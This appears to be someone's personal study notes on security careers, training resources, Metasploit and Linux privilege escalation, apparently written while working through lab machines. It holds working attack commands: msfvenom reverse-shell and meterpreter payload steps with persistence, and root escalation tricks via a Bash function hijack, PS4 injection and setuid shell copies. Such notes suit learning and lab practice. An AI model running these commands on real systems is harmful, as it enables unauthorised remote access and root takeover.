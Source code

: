 # Notes

**offensive security**

Look for vulnerabilities, recommend patches. Exploiting bugs. Finding loopholes. Gain unauthorized access.

* **penetration tester**: "Responsible for testing technology products for finding exploitable security vulnerabilities." (web security, network security knowledge, use various programming languages, cloud security)
* **Red Teamer**: "Plays the role of an adversary, attacking an organization and providing feedback from an enemy's perspective."
* **Security Engineer**: "design, monitor, and maintain security controls, networks, and systems to help prevent cyberattacks".

**defensive Security**. 
  * **Security Analyst** (monitor - splunk?)
  * **Incident Responder** (impact? goal? what can they do? - Volatility?)
  * **malware analysis**

Detect, and stop attacks. Monitor, analyze. Investigate infected computers, try to find how they were hacked, track down cybercriminals.

* Linux security researcher > Hashing


Other

* https://www.hackerrank.com/

<hr class="sep-both">

## Random

* Attack a vulnerable machine, scan the network to discover more vulnerable machines.

* Intrusion Detection System (IDS) is a system that detects unauthorised network and system intrusions. Examples include detecting unauthorised devices connected to the local network and unauthorised users accessing a system or modifying a file.

* https://wiki.owasp.org/index.php/OWASP_Testing_Guide_v4_Table_of_Contents

* Wireshark: https://unit42.paloaltonetworks.com/wireshark-workshop-videos/

* The [SecLists GitHub Repository](https://github.com/danielmiessler/SecLists/) contains useful lists of usernames/passwords, payloads, urls, ...

<hr class="sep-both">

## Metasploit

msfvenom to generate a reverse shell ELF binary: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf`

generate a payload using msfvenom callnig /bin/bash:

msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf


Since we know our victim machine is running Windows Defender, let's go ahead and try a different method of payload delivery! For this, we'll be using the script web delivery exploit within Metasploit. Launch Metasploit now and select 'exploit/multi/script/web_delivery' for use.

* set target
* https://github.com/nobodyatall648/CVE-2019-1388
* A simple reverse HTTP payload.
  * 'set payload windows/meterpreter/reverse_http'.
* Following this, launch the attack as a job with the command 'run -j'.
  * jobs
  * jobs -i 0
  * paste the command output by Metasploit
* https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/
* run persistence -X

<hr class="sep-both">

## Privilege escalation

* SGID `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
* SUID - shared

Run strace on the file and search the output for open/access calls and for "no such file" errors:

strace xxx.so 2>&1 | grep -iE "open|access|no such file"

* we can see the trace of the program. We can look if the program tried to open files that we can write.
* .so (a c program compiled as shared)
* if you try to read a .so, you won't understand much aside some character that were not "changed". You can see these characters with `strings xxx.so`
* Can inject env variables: PATH=.:$PATH ./xxx.so

n Bash versions <4.2-048, possible create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved).

function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service

Bash <4.4 enable debug, inject code in the PS4 env variable
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' _shared object that the user can run_

.bash_history
=> look for mysql, su, sudo...

ssh -i root_key (chmod 600)

---

Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

Check the NFS share configuration on the Debian VM:

cat /etc/exports

----

Kernel exploits can leave the system in an unstable state, last resort.

Run the Linux Exploit Suggester 2 tool to identify potential kernel exploits on the current system:

perl linux-exploit-suggester-2.pl

Linux kernel exploit "Dirty COW"

----

sudo -nS -l
sudo -S id

ssh2john